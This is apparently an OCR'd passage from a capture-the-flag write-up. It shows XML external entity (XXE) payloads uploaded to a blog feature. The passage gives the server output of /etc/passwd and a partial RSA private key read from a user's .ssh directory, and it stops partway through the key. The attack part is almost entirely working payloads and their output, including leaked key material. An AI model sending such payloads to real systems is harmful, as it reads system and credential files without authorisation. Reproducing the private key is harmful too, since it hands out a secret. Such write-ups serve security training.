 ```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE Content [
  <!ENTITY file SYSTEM "file:///etc/passwd">
]>
<Document>
    <Author>Bokchee</Author>
    <Subject>XML File Uplaod Test</Subject>
    <Content>&file;</Content>
</Document>


====================================================


 PROCESSED BLOGPOST: 
  Author: Bokchee
 Subject: XML File Uplaod Test
 Content: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
<SNIP>
git:x:1001:1001:git,,,:/home/git:/bin/bash
roosa:x:1002:1002:,,,:/home/roosa:/bin/bash
sshd:x:121:65534::/var/run/sshd:/usr/sbin/nologin
blogfeed:x:1003:1003:,,,:/home/blogfeed:/bin/false

 URL for later reference: /uploads/test.xml
 File path: /home/roosa/deploy/src
```

The user `roosa` is mentioned, and also exists on `/etc/passwd`.
What if the user `roosa` stores RSA private key?

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE Content [
  <!ENTITY file SYSTEM "file:///home/roosa/.ssh/id_rsa">
]>
<Document>
    <Author>Bokchee</Author>
    <Subject>XML File Uplaod Test</Subject>
    <Content>&file;</Content>
</Document>


====================================================


PROCESSED BLOGPOST: 
  Author: Bokchee
 Subject: XML File Uplaod Test
 Content: -----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAuMMt4qh/ib86xJBLmzePl6/5ZRNJkUj/Xuv1+d6nccTffb/7
9sIXha2h4a4fp18F53jdx3PqEO7HAXlszAlBvGdg63i+LxWmu8p5BrTmEPl+cQ4J
R/R+exNggHuqsp8rrcHq96lbXtORy8SOliUjfspPsWfY7JbktKyaQK0JunR25jVk
v5YhGVeyaTNmSNPTlpZCVGVAp1RotWdc/0ex7qznq45wLb2tZFGE0xmYTeXgoaX4
9QIQQnoi6DP3+7ErQSd6QGTq5mCvszpnTUsmwFj5JRdhjGszt0zBGllsVn99O90K
m3pN8SN1yWCTal6FLUiuxXg99YSV0tEl0rfSUwIDAQABAoIBAB6rj69jZyB3lQrS
JSrT80sr1At6QykR5ApewwtCcatKEgtu1iWlHIB9TTUIUYrYFEPTZYVZcY50BKbz
ACNyme3rf0Q3W+K3BmF//80kNFi3Ac1EljfSlzhZBBjv7msOTxLd8OJBw8AfAMHB
lCXKbnT6onYBlhnYBokTadu4nbfMm0ddJo5y32NaskFTAdAG882WkK5V5iszsE/3
koarlmzP1M0KPyaVrID3vgAvuJo3P6ynOoXlmn/oncZZdtwmhEjC23XALItW+lh7
e7ZKcMoH4J2W8OsbRXVF9YLSZz/AgHFI5XWp7V0Fyh2hp7UMe4dY0e1WKQn0wRKe
8oa9wQkCgYEA2tpna+vm3yIwu4ee12x2GhU7lsw58dcXXfn3pGLW7vQr5XcSVoqJ
Lk6u5T6VpcQTBCuM9+voiWDX0FUWE97obj8TYwL2vu2wk3ZJn00U83YQ4p9+tno6
```